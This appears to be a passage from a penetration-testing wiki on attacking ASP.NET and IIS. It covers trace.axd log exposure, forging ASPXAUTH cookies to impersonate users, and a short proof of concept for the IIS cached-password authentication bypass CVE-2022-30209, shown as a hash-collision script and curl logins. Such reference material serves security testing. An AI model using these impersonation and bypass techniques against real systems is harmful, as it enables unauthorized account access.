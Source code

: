 ASP.NET include a debugging mode and its file is called `trace.axd`.

It keeps a very detailed log of all requests made to an application over a period of time.

This information includes remote client IP's, session IDs, all request and response cookies, physical paths, source code information, and potentially even usernames and passwords.

[https://www.rapid7.com/db/vulnerabilities/spider-asp-dot-net-trace-axd/](https://www.rapid7.com/db/vulnerabilities/spider-asp-dot-net-trace-axd/)

![Screenshot 2021-03-30 at 13 19 11](https://user-images.githubusercontent.com/31736688/112974448-2690b000-915b-11eb-896c-f41c27c44286.png)

## ASPXAUTH Cookie

ASPXAUTH uses the following info:

- **`validationKey`** (string): hex-encoded key to use for signature validation.
- **`decryptionMethod`** (string): (default “AES”).
- **`decryptionIV`** (string): hex-encoded initialization vector (defaults to a vector of zeros).
- **`decryptionKey`** (string): hex-encoded key to use for decryption.

However, some people will use the **default values** of these parameters and will use as **cookie the email of the user**. Therefore, if you can find a web using the **same platform** that is using the ASPXAUTH cookie and you **create a user with the email of the user you want to impersonate** on the server under attack, you may be able to us**e the cookie from the second server in the first one** and impersonate the user.\
This attacked worked in this [**writeup**](https://infosecwriteups.com/how-i-hacked-facebook-part-two-ffab96d57b19).

## IIS Authentication Bypass with cached passwords (CVE-2022-30209) 

[Full report here](https://blog.orange.tw/2022/08/lets-dance-in-the-cache-destabilizing-hash-table-on-microsoft-iis.html): A bug in the code **didn't properly check for the password given by the user**, so an attacker whose **password hash hits a key** that is already in the **cache** will be able to login as that user .

```python
# script for sanity check
> type test.py
def HashString(password):
    j = 0
    for c in map(ord, password):
        j = c + (101*j)&0xffffffff
    return j

assert HashString('test-for-CVE-2022-30209-auth-bypass') == HashString('ZeeiJT')

# before the successful login
> curl -I -su 'orange:ZeeiJT' 'http://<iis>/protected/' | findstr HTTP
HTTP/1.1 401 Unauthorized

# after the successful login
> curl -I -su 'orange:ZeeiJT' 'http://<iis>/protected/' | findstr HTTP
HTTP/1.1 200 OK
```

## References

- [Unit 42 – Phantom Taurus: A New Chinese Nexus APT and the Discovery of the NET-STAR Malware Suite](https://unit42.paloaltonetworks.com/phantom-taurus/)
- [AMSI/ETW bypass background (HackTricks)](../../windows-hardening/av-bypass.md)

